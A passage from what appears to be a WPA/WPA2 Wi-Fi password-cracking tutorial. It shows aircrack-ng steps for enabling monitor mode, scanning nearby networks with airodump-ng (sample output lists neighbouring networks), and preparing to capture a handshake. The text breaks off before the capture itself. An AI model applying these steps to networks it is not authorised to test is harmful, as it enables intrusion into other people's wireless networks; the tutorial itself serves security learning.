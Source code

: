 Run `iwconfig`. You should now see a new monitor mode interface listed (likely `mon0` or `wlan0mon`).
Run 'airmon_ng check wlan0' to check if any other processes are running and use 'kill' command along with PID of the process to ensure nothing comes in your way.

### Find Your Target

Start listening to [802.11 Beacon frames](https://en.wikipedia.org/wiki/Beacon_frame) broadcast by nearby wireless routers using your monitor interface:

```bash
airodump-ng mon0
```

You should see output similar to what is below.

```
CH 13 ][ Elapsed: 52 s ][ 2017-07-23 15:49                                         
                                                                                                                                              
 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                              
 14:91:82:F7:52:EB  -66      205       26    0   1  54e  OPN              belkin.2e8.guests                                                   
 14:91:82:F7:52:E8  -64      212       56    0   1  54e  WPA2 CCMP   PSK  belkin.2e8                                                          
 14:22:DB:1A:DB:64  -81       44        7    0   1  54   WPA2 CCMP        <length:  0>                                                        
 14:22:DB:1A:DB:66  -83       48        0    0   1  54e. WPA2 CCMP   PSK  steveserro                                                          
 9C:5C:8E:C9:AB:C0  -81       19        0    0   3  54e  WPA2 CCMP   PSK  hackme                                                                 
 00:23:69:AD:AF:94  -82      350        4    0   1  54e  WPA2 CCMP   PSK  Kaitlin's Awesome                                                   
 06:26:BB:75:ED:69  -84      232        0    0   1  54e. WPA2 CCMP   PSK  HH2                                                                 
 78:71:9C:99:67:D0  -82      339        0    0   1  54e. WPA2 CCMP   PSK  ARRIS-67D2                                                          
 9C:34:26:9F:2E:E8  -85       40        0    0   1  54e. WPA2 CCMP   PSK  Comcast_2EEA-EXT                                                    
 BC:EE:7B:8F:48:28  -85      119       10    0   1  54e  WPA2 CCMP   PSK  root                                                                
 EC:1A:59:36:AD:CA  -86      210       28    0   1  54e  WPA2 CCMP   PSK  belkin.dca
```

For the purposes of this demo, we will choose to crack the password of my network, "hackme". Remember the BSSID MAC address and channel (`CH`) number as displayed by `airodump-ng`, as we will need them both for the next step.

### Capture a 4-way Handshake

WPA/WPA2 uses a [4-way handshake](https://security.stackexchange.com/questions/17767/four-way-handshake-in-wpa-personal-wpa-psk) to authenticate devices to the network. You don't have to know anything about what that means, but you do have to capture one of these handshakes in order to crack the network password. These handshakes occur whenever a device connects to the network, for instance, when your neighbor returns home from work. We capture this handshake by directing `airmon-ng` to monitor traffic on the target network using the channel and bssid values discovered from the previous command.
